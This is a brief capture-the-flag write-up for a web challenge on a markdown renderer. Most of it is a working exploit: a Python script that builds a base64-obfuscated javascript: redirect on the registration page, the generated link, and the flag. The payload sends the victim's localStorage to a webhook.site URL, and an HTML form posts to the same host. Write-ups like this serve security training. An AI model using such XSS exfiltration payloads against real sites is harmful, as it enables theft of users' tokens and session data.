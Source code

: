 ```yaml
---
created: 2025-06-07T16:01
updated: 2025-06-08T12:05
solves: 22
points: 484
---
```


Me and my teammate @T!T4N was working on this at the same time.

```html
<form action="https://webhook.site/0f905088-02bb-4116-842b-9376cd7fdc66">
<textarea name="{test}" id="markdown" style="height: 346px; width: 462px;"></textarea>
<input name="test" value="123"/>

<button type="submit">
<div id="markdownList">
<li><a>hewoo</a></li>
</div>
</button>
</form>
```

I was thinking about forms and was looking at registration page when @T!T4N found XSS via registration page lmao.

However his payload had trouble working on remote so I solved it.

```python
import base64
from urllib.parse import quote_plus

b64payload = base64.b64encode("""
location.href="https://webhook.site/0f905088-02bb-4116-842b-9376cd7fdc66?p="+JSON.stringify(localStorage)
""".encode()).decode()

payload = quote_plus(f"javascript:eval(atob('{b64payload}'))")


print(f"""
<ul id="markdownList">
    <li><a href="https://markdown-renderer.tjc.tf/register?redirect={payload}" target="_blank">CLICK</a>
    </li>
</ul>
""")
```

```html
<ul id="markdownList">
    <li><a href="https://markdown-renderer.tjc.tf/register?redirect=javascript%3Aeval%28atob%28%27CmxvY2F0aW9uLmhyZWY9Imh0dHBzOi8vd2ViaG9vay5zaXRlLzBmOTA1MDg4LTAyYmItNDExNi04NDJiLTkzNzZjZDdmZGM2Nj9wPSIrSlNPTi5zdHJpbmdpZnkobG9jYWxTdG9yYWdlKQo%3D%27%29%29" target="_blank">CLICK</a>
    </li>
</ul>
```

```flag
tjctf{sup3r_m4rked_1n_html_ea3c22e841b}
```
